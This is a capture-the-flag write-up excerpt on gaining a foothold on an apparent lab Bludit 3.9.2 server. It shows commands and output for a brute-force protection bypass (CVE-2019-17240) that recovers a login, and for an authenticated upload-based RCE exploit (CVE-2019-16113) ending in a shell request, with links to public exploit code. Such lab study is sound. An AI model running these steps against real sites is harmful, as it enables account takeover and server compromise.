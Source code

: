 ## Foothold

### CVE-2019-17240 Authentication Bruteforce Mitigation Bypass

`bl-kernel/security.class.php` in Bludit 3.9.2 allows attackers to bypass a brute-force protection mechanism by using many different forged X-Forwarded-For or Client-IP HTTP headers.

- Exploit Code: [ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass: Bludit <= 3.9.2 - Authentication Bruteforce Mitigation Bypass Exploit/PoC (github.com)](https://github.com/ColdFusionX/CVE-2019-17240_Bludit-BF-Bypass)

- **Dictionary Attack**:

```console
$ echo 'fergus' > users.txt

$ cewl http://10.10.10.191 > passwords.txt

$ python exploit.py -l http://10.10.10.191/admin/login.php -u users.txt -p passwords.txt
[∧] Brute Force: Testing -> fergus:Foundation
[┤] Brute Force: Testing -> fergus:him
[.......\] Brute Force: Testing -> fergus:Distinguished
[▅] Brute Force: Testing -> fergus:Contribution
[◤] Brute Force: Testing -> fergus:Letters
[ ] Brute Force: Testing -> fergus:probably
[..../...] Brute Force: Testing -> fergus:best
[◥] Brute Force: Testing -> fergus:fictional
[▄] Brute Force: Testing -> fergus:character
[▇] Brute Force: Testing -> fergus:RolandDeschain

[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```

- Credential: `fergus:RolandDeschain`

### CVE-2019-16113 Authenticated RCE

CVE-2019-16113 Bludit 3.9.2 allows remote code execution via `bl-kernel/ajax/upload-images.php` because PHP code can be entered with `a .jpg` (or .png) `file name`, and then this PHP code can write other PHP code to a `../` pathname.

Exploit Codes:

- [ynots0ups/CVE-2019-16113 (github.com)](https://github.com/ynots0ups/CVE-2019-16113/tree/master)
- [hg8/CVE-2019-16113-PoC: Bludit >= 3.9.2 - Authenticated RCE (CVE-2019-16113) (github.com)](https://github.com/hg8/CVE-2019-16113-PoC/tree/master)

```console
$ python cve-2019-16113.py
[+] Login successful!
[+] Upload of malicious file olhcexeloq.png successful!
[+] Modification of .htaccess successful!
[+] Sending request to spawn shell. You may Crtl+C this program once shell is recieved.
```
